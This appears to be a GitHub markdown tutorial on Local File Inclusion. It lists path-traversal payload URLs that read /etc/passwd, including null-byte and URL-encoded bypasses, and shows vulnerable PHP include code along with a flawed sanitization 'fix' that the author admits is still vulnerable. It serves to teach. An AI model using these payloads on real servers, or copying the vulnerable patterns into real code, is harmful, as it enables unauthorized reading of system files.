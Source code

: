 # Local File Inclusion/lfi
## @Author : M3tr1c_r00t
<li>
  <ul>An lfi is a web vulnerability which allows one to be able to view the servers files or even include other files within the root folder of the web server.
  </ul>
  <ul>An lfi can lead to information disclosure, cross-site scripting(XSS) and even rce(remote code execution).
  </ul>
  <ul>
  An lfi can occur when a server has been poorly configured or no proper sanitization practices are being observed.
  </ul>
  <ul>
  Lfi's usually occur when an application uses a path to a file as input.
  </ul>
  <ul>
  The server treats the input as trusted and is then executed.
  </ul>
  <ul>
  Other lfi's gives attackers the abilities to upload files into the server.
  </ul>
</li>

For example;
```
https://example-site.com/?module=contact.php
```
As an attacker, we can change the module part, as it being used as a path to the contact.php and try to view the internal files...

```
https://example-site.com/?module=/etc/passwd
```
### LFI Attacks
<ol>
<li>
  We can test for lfi vulnerable code by using "../" a couple of times 
  <br>
  ```
  https://example-site.com/?module=../../../../etc/passwd
  ```
  <br>
  The code example for this can be
  ```
  <?php
  $file = $_GET['file'];

   include('directory/' . $file)

  ?>  
  ```
  <br>
  or 
  <br>
  ```
  <?php
     $file = $_GET['file'];
     if(isset($file))
     {
         include("$file");
     }
     else
     {
         include("index.php");
     }
     ?>
  ```
  <br>
  This vuln can be fixed with the below code tho its still vulnerable...
  <br>
  ```
  <?php

  if(isset($_GET['file']))
  {
          $file=str_replace('../','',$_GET['file']);
          $file=str_replace('./','',$file);
          echo @file_get_contents('./'.$file);
  }

  ?>

  ```
  <br>
</li>

<li>
 bypass of: $_GET['param']."php"
 <br>
 In some servers, they add a definite file extension to prevent exploitation....
 <br>
 We can exploit this by adding a null byte in url encoding:
 <br>
 This only applies to php version 5.3.4 and below...
 ```
 http://example.com/index.php?page=../../../etc/passwd%00 // Only applies to PHP 5.3.4 and below
 ```
 <br>
</li>

<li>
In other cases, we can use url encoding...
```
http://example.com/index.php?page=..%252f..%252f..%252fetc%252fpasswd
http://example.com/index.php?page=..%c0%af..%c0%af..%c0%afetc%c0%afpasswd
```
<br>
If that doesn't work, try double url encoding...
```
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd%00
```
</li>





